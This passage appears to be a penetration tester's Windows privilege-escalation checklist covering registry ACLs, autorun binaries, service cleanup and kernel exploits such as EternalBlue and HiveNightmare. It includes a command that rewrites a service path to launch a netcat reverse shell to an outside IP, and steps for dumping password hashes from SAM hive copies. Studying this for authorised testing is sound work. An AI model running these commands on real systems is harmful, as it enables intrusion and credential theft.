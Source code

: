 #### Permissive Registry ACLs
- [ ] **Check for Weak Service ACLs in Registry**
  - Command: `accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services`

- [ ] **Change ImagePath with PowerShell**
  - Command: `Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"`

#### Modifiable Registry Autorun Binary
- [ ] **Check Startup Programs**
  - Command: `Get-CimInstance Win32_StartupCommand | select Name, command, Location, User |fl`

- [ ] **Review Autorun Locations**
  - Reference: [HackTricks Post](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries.html)
  - Reference: [Microsoft Press Store](https://www.microsoftpressstore.com/articles/article.aspx?p=2762082&seqNum=2)

#### Cleanup
- [ ] **Revert the Binary Path**
  - Command: `sc config WindScribeService binpath="c:\Program Files (x86)\Windscribe\WindscribeService.exe"`

- [ ] **Start the Service Again**
  - Command: `sc start WindScribeService`

- [ ] **Verify Service is Running**
  - Command: `sc query WindScribeService`

---
### Kernel Exploits

##### MS08-067
- [ ] Check if port 445 is accessible.
- [ ] Use Metasploit or standalone exploit for MS08-067.
- [ ] Reference: [Hack The Box Legacy](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html)

##### MS17-010 (EternalBlue)
- [ ] Check if SMBv1 is enabled.
- [ ] Use Metasploit or standalone exploit for MS17-010.
- [ ] Reference: [Hack The Box Blue](https://0xdf.gitlab.io/2021/05/11/htb-blue.html)

##### ALPC Task Scheduler 0-Day
- [ ] Use the SchRpcSetSecurity API function.
- [ ] Reference: [ALPC Task Scheduler Writeup](https://blog.grimm-co.com/2020/05/alpc-task-scheduler-0-day.html)
- [ ] Try on [Hack The Box Hackback](https://snowscan.io/htb-writeup-hackback/)

##### CVE-2021-36934 (HiveNightmare)
- [ ] Check permissions on the SAM file using `icacls`.
- [ ] Use [HiveNightmare PoC](https://github.com/GossiTheDog/HiveNightmare) to create copies of registry hives.
- [ ] Extract password hashes using `impacket-secretsdump`.
